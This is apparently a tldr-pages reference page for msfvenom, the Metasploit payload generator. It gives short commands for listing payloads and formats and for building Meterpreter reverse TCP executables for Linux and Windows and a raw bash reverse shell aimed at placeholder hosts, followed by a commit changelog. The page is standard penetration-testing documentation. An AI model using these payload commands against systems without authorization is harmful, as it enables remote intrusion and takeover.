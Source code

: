 ```yaml
---
author: ['Fazle Arefin', 'Jonathan']
date: 1653890310
title: "msfvenom"
description: "msfvenom, Manually generate payloads for metasploit."
categories: "common"
---
```

> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- List payloads:

```bash
msfvenom -l payloads
```

- List formats:

```bash
msfvenom -l formats
```

- Show payload options:

```bash
msfvenom -p payload --list-options
```

- Create an ELF binary with a reverse TCP handler:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f elf -o path/to/binary
```

- Create an EXE binary with a reverse TCP handler:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f exe -o path/to/binary.exe
```

- Create a raw bash with a reverse TCP handler:

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=local_ip LPORT=local_port -f raw
```
List of changes to this documentation


Author | Description | ISO 8601 Date | GitHub link
------|-----|-----|-----
[Fazle Arefin](mailto:fazlearefin@users.noreply.github.com) | msfvenom: add raw example (#8095) * Use built in output option in msfvenom * Add msfvenom example to generate bash reverse tcp handler [...] | 2022-05-30T07:58:30 | [cf7215e832ab](https://github.com/tldr-pages/tldr/commit/cf7215e832aba55f8ace42e5418b5c8bf94c14af)
[Jonathan](mailto:1909202+Jab2870@users.noreply.github.com) | msfvenom: add page (#3476) | 2019-12-29T04:06:13 | [37ffdcb0a799](https://github.com/tldr-pages/tldr/commit/37ffdcb0a799a3f9b47e2bb73d5f0208caedeefe)

